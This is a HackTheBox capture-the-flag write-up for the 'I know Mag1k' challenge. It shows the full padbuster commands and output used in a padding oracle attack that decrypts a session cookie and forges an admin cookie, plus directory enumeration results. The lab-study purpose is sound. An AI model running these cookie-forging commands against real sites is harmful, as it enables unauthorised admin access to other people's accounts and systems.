 # I know Mag1k

Completed: Yes
Platform: HackTheBox

When I went to this site, I saw the 2 options, registration and logging in. I made an account and then logged in. Though it gave me nothing except one thing as usual - a cookie. And this cookie had the hint as the key `iknowmag1k`: `Cookie: PHPSESSID=5l1jd3s13oducofqtgu75siit2; iknowmag1k=A0jmArssc%2FGWl0NROGUiC0GqcxWRVqNG0%2BHBkoxP6gdmEiW1m4dN4A%3D%3D`. I decoded the cookie, firstly as URL, secondly as URL too, and finally got some hex + base64 string. Then, I checked HackTricks and found these interesting thoughts about cookies and their advanced exploitation: [https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies#advanced-cookies-attacks](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies#advanced-cookies-attacks).  I tried to create other accounts, but it gave me no clue about brute force or guessing the admin account cookie. Thus, remains the main vector is padding Oracle. Also, with feroxbuster I found these URLs:

```bash
200        0l        0w        0c http://46.101.23.188:31220/utils/crypt.php
200        0l        0w        0c http://46.101.23.188:31220/utils/index.php
200        0l        0w        0c http://46.101.23.188:31220/utils/recaptcha.php
```

`crypt.php` gives another thought about padding Oracle. So, this attack allows us to decrypt the cookie without knowing the encryption key. Also, great material to understand padding Oracle: [https://resources.infosecinstitute.com/topic/padding-oracle-attack-2/](https://resources.infosecinstitute.com/topic/padding-oracle-attack-2/). Finally, the program `padbuster` did the job:

```bash
 padbuster http://46.101.23.188:31220/profile.php --cookies "iknowmag1k=A0jmArssc%2FGWl0NROGUiC0GqcxWRVqNG0%2BHBkoxP6gdmEiW1m4dN4A%3D%3D" A0jmArssc%2FGWl0NROGUiC0GqcxWRVqNG0%2BHBkoxP6gdmEiW1m4dN4A%3D%3D 8

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: login.php
[+] Content Length: 0

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 4 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       302     0       login.php
2 **    255     500     0       N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (54/256) [Byte 8]
[+] Success: (173/256) [Byte 7]
[+] Success: (163/256) [Byte 6]
[+] Success: (38/256) [Byte 5]
[+] Success: (140/256) [Byte 4]
[+] Success: (107/256) [Byte 3]
[+] Success: (147/256) [Byte 2]
[+] Success: (144/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 969743513865220b
[+] Intermediate Bytes (HEX): 786a9371de5e51cb
[+] Plain Text: {"user":

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 4 ***

[+] Success: (216/256) [Byte 8]
[+] Success: (244/256) [Byte 7]
[+] Success: (188/256) [Byte 6]
[+] Success: (184/256) [Byte 5]
[+] Success: (217/256) [Byte 4]
[+] Success: (224/256) [Byte 3]
[+] Success: (28/256) [Byte 2]
[+] Success: (68/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 41aa73159156a346
[+] Intermediate Bytes (HEX): b4e326224c470e29
[+] Plain Text: "test","

*** Starting Block 3 of 4 ***

[+] Success: (206/256) [Byte 8]
[+] Success: (125/256) [Byte 7]
[+] Success: (145/256) [Byte 6]
[+] Success: (73/256) [Byte 5]
[+] Success: (139/256) [Byte 4]
[+] Success: (231/256) [Byte 3]
[+] Success: (62/256) [Byte 2]
[+] Success: (197/256) [Byte 1]

Block 3 Results:
[+] Cipher Text (HEX): d3e1c1928c4fea07
[+] Intermediate Bytes (HEX): 33c51f70b36c8133
[+] Plain Text: role":"u

*** Starting Block 4 of 4 ***

[+] Success: (251/256) [Byte 8]
[+] Success: (21/256) [Byte 7]
[+] Success: (177/256) [Byte 6]
[+] Success: (11/256) [Byte 5]
[+] Success: (75/256) [Byte 4]
[+] Success: (75/256) [Byte 3]
[+] Success: (125/256) [Byte 2]
[+] Success: (88/256) [Byte 1]

Block 4 Results:
[+] Cipher Text (HEX): 661225b59b874de0
[+] Intermediate Bytes (HEX): a084b3b0f14ce904
[+] Plain Text: ser"}

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): {"user":"test","role":"user"}

[+] Decrypted value (HEX): 7B2275736572223A2274657374222C22726F6C65223A2275736572227D030303

[+] Decrypted value (Base64): eyJ1c2VyIjoidGVzdCIsInJvbGUiOiJ1c2VyIn0DAwM=

-------------------------------------------------------
```

Okay, we decrypted the cookie, now, it's time to modify it and get access to the admin account. Use this tool again to encrypt the right admin cookie:

```bash
padbuster http://46.101.23.188:31220/profile.php --cookies "iknowmag1k=A0jmArssc%2FGWl0NROGUiC0GqcxWRVqNG0%2BHBkoxP6gdmEiW1m4dN4A%3D%3D" A0jmArssc%2FGWl0NROGUiC0GqcxWRVqNG0%2BHBkoxP6gdmEiW1m4dN4A%3D%3D 8 -plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: login.php
[+] Content Length: 0

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 4

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       302     0       login.php
2 **    255     500     0       N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (97/256) [Byte 8]
[+] Success: (155/256) [Byte 7]
[+] Success: (87/256) [Byte 6]
[+] Success: (153/256) [Byte 5]
[+] Success: (61/256) [Byte 4]
[+] Success: (188/256) [Byte 3]
[+] Success: (151/256) [Byte 2]
[+] Success: (167/256) [Byte 1]

Block 4 Results:
[+] New Cipher Text (HEX): 300a2faf0d881a9f
[+] Intermediate Bytes (HEX): 516e42c663aa679e

[+] Success: (197/256) [Byte 8]
[+] Success: (77/256) [Byte 7]
[+] Success: (51/256) [Byte 6]
[+] Success: (253/256) [Byte 5]
[+] Success: (25/256) [Byte 4]
[+] Success: (182/256) [Byte 3]
[+] Success: (226/256) [Byte 2]
[+] Success: (96/256) [Byte 1]

Block 3 Results:
[+] New Cipher Text (HEX): 8a6b238e62ec8b18
[+] Intermediate Bytes (HEX): a8194ce207ceb13a

[+] Success: (203/256) [Byte 8]
[+] Success: (77/256) [Byte 7]
[+] Success: (130/256) [Byte 6]
[+] Success: (176/256) [Byte 5]
[+] Success: (129/256) [Byte 4]
[+] Success: (80/256) [Byte 3]
[+] Success: (53/256) [Byte 2]
[+] Success: (14/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): d8add2173d139318
[+] Intermediate Bytes (HEX): faccb67a547db134

[+] Success: (83/256) [Byte 8]
[+] Success: (107/256) [Byte 7]
[+] Success: (221/256) [Byte 6]
[+] Success: (52/256) [Byte 5]
[+] Success: (219/256) [Byte 4]
[+] Success: (207/256) [Byte 3]
[+] Success: (239/256) [Byte 2]
[+] Success: (161/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 2c344253ad52b596
[+] Intermediate Bytes (HEX): 57163720c82097ac

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D
-------------------------------------------------------
```

Replace your cookie with a new cookie and take the flag.